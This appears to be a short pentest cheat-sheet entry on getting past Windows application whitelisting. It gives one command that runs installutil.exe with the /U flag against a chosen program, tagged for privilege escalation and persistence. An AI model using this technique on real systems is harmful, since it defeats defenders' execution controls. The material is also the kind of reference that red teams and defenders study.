 # application whitelisting

% application whitelisting, clm
## whitelisting bypass with installutil
#platform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON 

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <full_path_to_app>
```

